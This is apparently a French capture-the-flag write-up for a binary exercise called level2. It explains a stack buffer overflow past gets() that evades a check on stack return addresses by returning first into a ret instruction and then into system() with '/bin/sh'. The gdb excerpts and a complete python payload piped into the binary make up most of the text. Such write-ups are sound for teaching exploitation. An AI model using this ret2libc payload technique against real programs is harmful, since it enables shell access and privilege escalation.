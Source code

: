 On a une fonction dans le binaire qui s'appelle p

```gdb
0x08048545 <+6>:	call   0x80484d4 <p>
```

En la desassemblant

On constate que l'on a un buffer de 76 mais on ne peux pas l'exploiter directement car il y a une verification après l'appel a la fonction gets qui verifie que EIP ne pointe pas sur une adresse de la stack (0xb).

```gdb
0x080484fb <+39>:	and    eax,0xb0000000
0x08048500 <+44>:	cmp    eax,0xb0000000
```

Pour contourner cela on va réecrire une partie de la stack.

En faisant pointé EIP au retour de la fonction gets sur la fin de la fonction p la prochaine instruction sera mis dans EIP et c'est la que l'on va executer notre "/bin/sh"

composition de la stack

EIP après gets		-> address de ret de p()
EIP après ret de p() 	-> address de system()
EIP après system() 	-> address de exit
Argument de system 	-> address de "/bin/sh"

```bash
python -c "print('A' * 80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + 'OSEF' + '\x58\xcc\xf8\xb7')" > /tmp/exploit2
cat /tmp/exploit2 - | ./level2
```